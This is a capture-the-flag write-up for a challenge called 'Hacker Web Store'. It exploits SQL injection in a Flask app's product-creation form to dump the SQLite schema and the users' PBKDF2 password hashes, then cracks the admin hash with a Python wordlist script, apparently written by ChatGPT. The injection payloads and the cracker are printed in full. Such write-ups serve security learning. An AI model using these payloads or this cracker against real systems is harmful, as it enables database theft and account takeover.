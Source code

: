 ## Hacker Web Store
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/69ba4168-2f45-4add-bc48-aaae3fe9002d)

## Enumeration

We are presented with a simple webpage with only two options. The option to create a product, and to login as admin, however we don't know the credentials yet. Despite the challenge providing a `password_list.txt` file, we are not allowed to bruteforce the login as it is against the rules. This means that the wordlist must be used for something else.  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/00afb789-f641-461d-beb7-3631699f645a)

When creating a product or simply accessing the page, a Flask cookie is assigned to us and if we use `flask-unsign` to decode it, we can see it mentioning a `sqlite` database.  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2452b806-997c-4785-beb6-c9f3c0671654)

When creating a product with a single quote in either boxes, we will get a SQL error and also shows that we are in an INSERT statement.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/dbfa7579-a9ed-4a04-ad87-8f69e82ed375)

We can use the payload below to get the first table name.

```sql
' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--
```

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/379ef332-d7a5-421f-b3fa-e12bcca8e9a1)

Then we can get the column names of the users table:
```sql
' || (SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name='users'))--
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/911505de-b506-437d-bdea-8ccdb4c389fa)

And now we can easily get all the names and passwords.
```sql
' || (SELECT group_concat(name || ' ' || password, ' ') FROM users))--
```

```text
Joram pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
James pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
website_admin_account pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```

Unfortunately it looks like these are not hashes recognized either by John or Hashcat. But they do follow a standard practice of password hashing using iterations and salt so we can code this.

## Solution

When I say "we", I mean ChatGPT can and I can then validate the code.

```python
import hashlib
import concurrent.futures

def generate_pbkdf2_hash(password, salt, iterations=600000):
    # Encode the password and salt as bytes
    password_bytes = password.encode('utf-8')
    salt_bytes = salt.encode('utf-8')

    # Generate the hash using PBKDF2 with HMAC-SHA256
    hash_bytes = hashlib.pbkdf2_hmac('sha256', password_bytes, salt_bytes, iterations)

    # Convert the hash bytes to a hexadecimal string representation
    hash_hex = hash_bytes.hex()

    # Format the hash string in the desired format
    formatted_hash = f"pbkdf2:sha256:{iterations}${salt}${hash_hex}"

    return formatted_hash

def crack_password(target_hash, salt, iterations, password_list_file):
    with open(password_list_file, 'r') as f:
        password_list = [line.strip() for line in f]

    # Define a function to generate hashes in parallel
    def generate_hashes(password):
        generated_hash = generate_pbkdf2_hash(password, salt, iterations)
        return (password, generated_hash)

    # Use concurrent.futures to execute hash generation in parallel
    with concurrent.futures.ThreadPoolExecutor() as executor:
        futures = [executor.submit(generate_hashes, password) for password in password_list]

        # Iterate over completed futures to check for a match
        for future in concurrent.futures.as_completed(futures):
            password, generated_hash = future.result()
            if generated_hash == target_hash:
                return password

    return None

# Example usage
target_hash = 'pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57'
salt = 'MSok34zBufo9d1tc'
iterations = 600000
password_list_file = 'password_list.txt'

cracked_password = crack_password(target_hash, salt, iterations, password_list_file)
if cracked_password:
    print("Password cracked:", cracked_password)
else:
    print("Password not found in the wordlist.")
```

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d5c040de-8d35-4284-8374-f82376814c8e)

Now we login as admin and get the flag:

`flag{87257f24fd71ea9ed8aa62837e768ec0}`
